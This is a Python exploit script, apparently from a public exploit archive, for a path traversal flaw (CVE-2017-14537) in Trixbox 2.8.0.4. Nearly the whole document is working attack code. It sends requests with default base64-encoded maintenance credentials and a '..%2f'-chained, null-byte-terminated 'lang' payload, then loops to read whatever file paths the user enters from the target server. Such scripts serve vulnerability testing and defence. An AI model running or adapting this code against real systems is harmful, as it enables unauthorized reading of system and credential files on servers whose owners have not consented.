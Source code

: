 EXP
---

    # Exploit Title: Trixbox 2.8.0.4 - 'lang' Path Traversal
    # Date: 27.05.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Credits to: https://secur1tyadvisory.wordpress.com/2018/02/13/trixbox-multiple-path-traversal-vulnerabilities-cve-2017-14537/
    # Credits to: Sachin Wagh
    # Vendor Homepage: https://sourceforge.net/projects/asteriskathome/
    # Software Link: https://sourceforge.net/projects/asteriskathome/files/trixbox%20CE/trixbox%202.8/trixbox-2.8.0.4.iso/download
    # Version: 2.8.0.4
    # Tested on: Xubuntu 20.04
    # CVE: CVE-2017-14537

    '''
    Description:
    trixbox 2.8.0.4 has path traversal via the xajaxargs array parameter to /maint/index.php?packages or the
    lang parameter to /maint/modules/home/index.php.
    '''


    '''
    Import required modules:
    '''
    import requests
    import sys
    import urllib.parse


    '''
    User-Input:
    '''
    target_ip = sys.argv[1]
    target_port = sys.argv[2]


    '''
    Construct malicious request:
    '''
    # Constructing header:
    header = {
        'Host': target_ip,
        'User-Agent': 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'keep-alive',
        'Cookie': 'template=classic; lng=en; lng=en',
        'Upgrade-Insecure-Requests': '1',
        'Authorization': 'Basic bWFpbnQ6cGFzc3dvcmQ=',
    }

    # Constructing malicious link (payload):
    base_link = 'http://' + target_ip + ':' + target_port
    base_link_addon_1 = '/maint/modules/home/index.php?lang=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..'
    base_link_addon_3 = '%00english'
    print('')
    base_link_addon_2 = input('Input the filepath or input EXIT: ')



    '''
    EXPLOIT:
    '''
    while base_link_addon_2 != 'EXIT':
        base_link_addon_2_coded = urllib.parse.quote(base_link_addon_2, safe='')
        exploit_link = base_link + base_link_addon_1 + base_link_addon_2_coded + base_link_addon_3
        print('')
        exploit = requests.post(exploit_link, headers=header)
        print('Contents of ' + base_link_addon_2 + ':')
        for data in exploit.iter_lines():
            data = data.decode('utf-8')
            if data != '<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">':
                print(data)
            else:
                break
        print('')
        base_link_addon_2 = input('Input the filepath or input EXIT: ')